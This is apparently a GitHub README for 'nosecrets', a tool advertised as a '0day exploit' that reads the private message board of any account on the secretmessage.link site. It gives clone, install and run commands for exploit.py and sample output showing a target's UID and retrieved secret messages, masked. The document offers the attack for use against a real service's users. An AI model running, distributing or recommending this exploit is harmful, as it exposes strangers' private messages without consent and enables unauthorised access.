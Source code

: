 # nosecrets
https://www.secretmessage.link/ 0day exploit | read message board of any accounts

## Installation
```bash
git clone https://github.com/jmrcsnchz/nosecrets.git
```
```bash
pip3 install requests
```
```bash
pip3 install bs4
```

## Usage
```bash
cd nosecrets
```
```bash
python3 exploit.py
```

```
Target Link: > https://www.secretmessage.link/secret/xXXxXXXXXxxxX/
Secret Message 2021 | xxxxxxxxx - Secret Message 2021
[+] Target UID: 845504
Getting Messages.....
[+] Discovered 3 Secret Messages

(1) xxxxxxxxxxx
(2) xxxxxxxxxxxxxxxxxx
(3) xxxxxxxxxxxxxxxxxxxxxxxx
```
